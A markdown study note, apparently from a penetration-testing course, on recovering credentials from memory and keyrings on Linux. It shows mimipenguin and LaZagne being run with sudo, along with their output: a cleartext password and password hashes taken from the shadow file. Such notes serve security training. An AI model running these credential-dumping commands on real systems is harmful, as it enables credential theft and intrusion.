 ## Memory and Cache
* Many applications and processes work with credentials needed for authentication and store them either in memory or in files so that they can be reused
* There is a tool called [mimipenguin](https://github.com/huntergregal/mimipenguin) that can read credentials from memory

```sh
sudo python3 mimipenguin.py
[sudo] password for cry0l1t3: 

[SYSTEM - GNOME]	cry0l1t3:WLpAEXFa0SbqOHY


sudo bash mimipenguin.sh 
[sudo] password for cry0l1t3: 

MimiPenguin Results:
[SYSTEM - GNOME]          cry0l1t3:WLpAEXFa0SbqOHY
```

* A more powerful tool is `LaZagne`
* The passwords and hashes we can obtain come from the following sources but are not limited to

![](../Screenshots/Screenshot_2022-11-14_181952.png)

* For example, Linux uses `Keyrings` for secure storage and management of passwords
* Passwords are stored encrypted and protected with a master password

```sh
sudo python2.7 laZagne.py all

|====================================================================|
|                                                                    |
|                        The LaZagne Project                         |
|                                                                    |
|                          ! BANG BANG !                             |
|                                                                    |
|====================================================================|

------------------- Shadow passwords -----------------

[+] Hash found !!!
Login: systemd-coredump
Hash: !!:18858::::::

[+] Hash found !!!
Login: sambauser
Hash: $6$wgK4tGq7Jepa.V0g$QkxvseL.xkC3jo682xhSGoXXOGcBwPLc2CrAPugD6PYXWQlBkiwwFs7x/fhI.8negiUSPqaWyv7wC8uwsWPrx1:18862:0:99999:7:::

[+] Password found !!!
```